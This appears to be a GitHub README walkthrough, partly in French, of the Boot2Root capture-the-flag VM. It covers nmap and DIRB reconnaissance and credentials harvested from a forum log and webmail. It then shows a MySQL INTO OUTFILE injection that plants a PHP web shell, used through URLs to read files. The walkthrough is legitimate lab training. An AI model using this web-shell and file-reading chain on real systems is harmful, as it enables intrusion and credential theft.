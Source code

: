  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

The first step is to understand what we can gain access to and where is it located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open by executing: ```nmap <IP>.1-255```

This gives back the precise IP and the open ports:
```
Nmap scan report for 192.168.99.100
Host is up (0.00048s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
From this we know that the exact ip ends with .100
80 should be open and accessible Through a web browser

We are presented to a basic webpage:
![website](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/website.png)


* Now that we know the IP we're going to use DIRB to gather information about the file structure
[DIRB!](https://sourceforge.net/projects/dirb/files/)
DIRB is a tool that uses dictionaries of common file systems naming paterns in order uncover their presence.


```
./dirb https://192.168.99.100/ wordlists/common.txt -w
```

We uncover :

- https://192.168.99.100/forum/  with subfolders:
  - js
  - lang
  - modules
  - templates_c
  - themes
  - update
- https://192.168.99.100/phpmyadmin/
- https://192.168.99.100/webmail/
--------------------

Lets start by accessing the forum. There's a link that displays the users and what they posted, lmezard posted "Probleme login ?"  

![forum](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/forum1.png)

It links to a log output of what seems to be admin logins 

When looking for the lmezard "Failed password for invalid user", one line seems very out of place: ```Failed password for invalid user !q\]Ej?*5K5cy*AJ```

Could this be lmezard's password? :smirk:

With this password we can then login to the forum with lmezard's credentials and discover that her email address is laurie@borntosec.net

Let's try to log to the webmail with this email and the same password:

![webmail](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/images/webmail.png)

Nice...
Let's check the mail DB ACCESS:

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
***Bouyaaa !!!***


--------------------------------------------------------------------------------------------
En magouillant un peu sur le login de phpmyadmin
login: root
pass: Fg-'kKXBj87E:aJ$

CA PASSE

On suis ce tuto :http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2

Ils nous donnent:
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/cmd.php”;

Cela permet d'inserer un shell basique qui prend des commandes via url, mais il faut trouver ou le placer

Vue que c'est un site web il sera en  /var/www/html/

en tentant les differents sous dossiers de dossier de forum (obtenus via DIRB)
on arrive finalement a placer dans template_c

SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";

A partir de la on peux lancer des commandes via le navigateur, notament ls pour comprendre l'arborecense

https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home

https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password
Montre un dossier LOOKATME avec dedans un Login/Password :
lmezard:G!@M6f4Eatau{sF"

en se connectant en ftp on peut entrer ce password et acceder a un README : "Complete this little challenge and use the result as password for user 'laurie' to login in ssh"

et a un fichier fun

Ce fichier fun contiens des instructions:




Password SSH de Laurie

laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

